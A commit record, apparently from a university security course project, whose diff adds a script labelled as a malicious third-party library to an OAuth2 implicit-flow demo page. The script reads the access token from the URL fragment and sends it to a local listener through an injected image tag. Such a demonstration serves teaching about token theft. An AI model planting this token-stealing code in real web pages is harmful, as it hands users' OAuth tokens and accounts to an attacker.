

Before and after one commit to kuromono/cs5331-oauth2, a Python web app: template website/templates/client_implicit.html in a window 1280 px wide. Shown: the part 836-1989 px from the top of the page at 89% size. Before the commit the page ends 1797 px from the top, so only its background shows below. Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Added malicious 3rd-Party script to implicit client

```diff
--- /dev/null
+++ b/website/static/malicious.js
@@ -0,0 +1,7 @@
+if (window.location.hash.includes('access_token'))
+{
+	var remote_site = "http://127.0.0.1:9000/";
+	var src = remote_site + window.location.hash.substring(1);
+	document.getElementById("remote_site").innerHTML = remote_site;
+	document.body.insertAdjacentHTML("beforeend", "<img src='" + src + "'>");
+}
--- a/website/templates/client_implicit.html
+++ b/website/templates/client_implicit.html
@@ -62,6 +62,14 @@
     </label>
     <input type="button" onclick="doXSS()" value="XSS">
   </form>
+</div>
+
+<div>
+  <h1>3rd Party Library</h1>
+  <p>A malicious 3rd Party Javascript library is loaded.</p>
+  <p>The access token can be retrieved at: <span id="remote_site">Authorize First</span></p>
+  <!-- Malicious 3rd Party Library -->
+  <script type=text/javascript src="{{ url_for('static', filename='malicious.js') }}"></script>
 </div>
 
 <div>
```
